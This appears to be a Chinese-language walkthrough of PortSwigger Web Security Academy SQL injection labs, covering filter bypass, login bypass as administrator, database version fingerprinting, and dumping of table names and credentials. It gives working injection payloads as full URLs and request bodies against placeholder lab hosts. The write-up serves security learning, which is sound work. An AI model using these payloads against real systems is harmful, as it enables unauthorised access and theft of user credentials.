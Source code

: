 # SQL injection

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

> 最基础的SQL注入，由于题目中已经告诉了语句格式，即告诉了`category`字段为单引号闭合，实际测试中可能需要花费一定时间去判断*脆弱字段*和*闭合形式*。

随便选择一个类别，然后修改类别名为不存在的名称，例如`abc`，然后进行单引号闭合，加入OR语句`or 1=1`，最后进行注释`--+`以使SQL语句成立，最后请求URL即为`https://xxxxxxx.web-security-academy.net/filter?category=abc'%20or%201%3D1--+`。

## SQL injection vulnerability allowing login bypass

> 也是基础的SQL注入，题目要求登录`administrator`用户，那么用户名输入`administrator' --+`即可。实际中，可能需要测试一下闭合形式，我最开始是没有单引号的，发现失败了，就结合上一题（信息收集）测试一下单引号即可。

点击`My Account`进入登陆界面，用户名输入`administrator' --+`，密码任意输入（防止有检测空密码的JavaScript代码阻止登录），最后请求包数据为`csrf=xxxxxxx&username=administrator%27%20--%2B&password=administrator`

## SQL injection attack, querying the database type and version on Oracle

> 基本的思路就是`union`一个查询数据库版本的语句，然后让其回显。

由于我对Oracle的语句并不熟悉，所以我参考了[一些资料](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

通过`' and 1=1--+`和`' and 1=2--+`确定是单引号闭合之后，就可以开始判断当前表的列数。

第一步需要判断当前表的列数（因为这关乎我们之后select语句返回数据的数量），可以通过`order by`语句进行测试，会发现`order by 3`时会报错，`order by 2`时正常，那么可以判断当前表有两列，即`https://xxxxxxx.web-security-academy.net/filter?category=Gifts%27+order+by+2--+`。

接下来就可以开始使用`union`语句确定回显。在MySQL中，我们可以通过`select 1,2`的语句进行测试回显，但在Oracle中，必须要包含`from table`，所以我们使用`select '1','2' from dual`来进行测试（需要使用字符串而非数字，具体原因我不太清楚，之后如果系统了解Oracle应该会涉及）。*dual是Oracle的一个实际存在的表，常用在没有目标表的select语句中*。请求URL为`https://xxxxxxx.web-security-academy.net/filter?category=Gifts%27+union+select+%271%27,%272%27+from+dual--+`，我们会发现两部分都会回显。

通过资料可以发现，Oracle中查询版本的语句为`SELECT banner FROM v$version`和`SELECT version FROM v$instance
`，我们以前者为例子，直接修改之前的select语句即可，例如`https://xxxxxxx.web-security-academy.net/filter?category=Gifts%27+union+select+null,banner+from+v$version--+`，这里的`null`可以换成`%271%27`或直接`banner`。

## SQL injection attack, querying the database type and version on MySQL and Microsoft

> 与上一个一样，不过就是后端不一样，换一些语法就可以了。

`https://xxxxxxx.web-security-academy.net/filter?category=Accessories%27+union+select+1,@@version--+`

你也可以使用`version()`来替代`@@version`，这是我在下一个Lab中发现的，`version()`适用于所有非Oracle的数据库，但`@@version`仅适用于MySQL和Microsoft。

## SQL injection attack, listing the database contents on non-Oracle databases

> 可以先通过注入查询数据库得到用户名密码，最后再登录。

可以通过`https://xxxxxxx.web-security-academy.net/filter?category=Gifts%27+union+select+%271%27,version()--+`来进行初步测试，确定后端为`PostgreSQL`。

同样使用[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)中的Payload，我们可以通过`https://xxxxxxx.web-security-academy.net/filter?category=ABC%27+union+select+%271%27,table_name+from+information_schema.tables--+`查看数据库表名，使用`ABC`这个不存在的category是为了去掉原本正常的数据。

搜索关键字`user`，挑选一个可能性较大的表，例如`pg_user`，通过`https://xxxxxxx.web-security-academy.net/filter?category=ABC%27+union+select+%271%27,column_name+from+information_schema.columns+where+table_name=%27pg_user%27--+`查询其列名，会发现有`usename`和`passwd`两列。

最后通过`https://xxxxxxx.web-security-academy.net/filter?category=ABC%27+union+select+usename,passwd+from+pg_user--+`，但是发现这里只有两个用户`peter`和`postgres`，所以我们表找错了。最后再查看一次所有表，觉得`users_alyjev`可能也较大，进行查询后得到用户名密码，登录即可。
